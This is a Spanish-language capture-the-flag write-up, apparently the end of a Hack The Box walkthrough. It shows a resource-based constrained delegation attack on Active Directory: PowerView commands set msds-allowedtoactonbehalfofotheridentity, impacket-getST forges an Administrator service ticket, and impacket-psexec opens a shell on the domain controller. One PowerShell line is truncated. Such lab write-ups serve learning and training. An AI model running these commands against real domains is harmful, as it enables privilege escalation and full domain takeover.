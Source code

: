 Anbtes de seguir nos copiamos el SID del usuario que lo necesitaremos para las siguientes instrucciones:

![](sid.png)

Siguiendo con el plan de explotación de HackTricks nos dice que hagamos esta serie de comandos, que parece que estamos almacenando variables.

`$ComputerSid = Get-DomainComputer USER -Properties objectsid | Select -Expand objectsid`

`$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"`

`$SDBytes = New-Object byte[] ($SD.BinaryLength)`

`$SD.GetBinaryForm($SDBytes,`

`Get-DomainComputer NOMBRE MAQUINA | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`

Importante cambiar el “**NOMBRE DE LA MÁQUINA**” en este caso se llama la máquina DC.

Ahora que hemos lanzado todo esto vamos a ver si está todo correcto.

`Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'`

Para finalizar, utilizaremos **impacket**.

`impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip IP support.htb/USER$:PASS`

![](tgs.png)

Ahora ya hemos obtenido un **TGS** (Ticket de Servicio) que nos va a permitir suplantar al usuario Administrador gracias a la delegación **S4U** (Service for User).

Exportamos el sitio de almacenaje del ticket dentro de esta variable y ahora mediante **psexec** vamos a entrar como administradores de dominio.

![](export.png)

impacket-psexec  -k -no-pass -dc-ip IP SUPPORT.HTB/Administrator@dc.support.htb

![](entrando.png)

Estamos dentro de la máquina.

## Conclusión:

Esta es una máquina de nivel fácil pero a mi me ha costado algo más de trabajo debido a que toca Active Directory y es algo de lo cual me estoy empezado a especializar y me toca investigar bastante para poder sacar las cosas. Por lo demás la máquina una máquina divertida. He tardado en resolverla **varios días** con algo de ayuda.

Un saludo, GOOD HACKING!!!!

> XIII
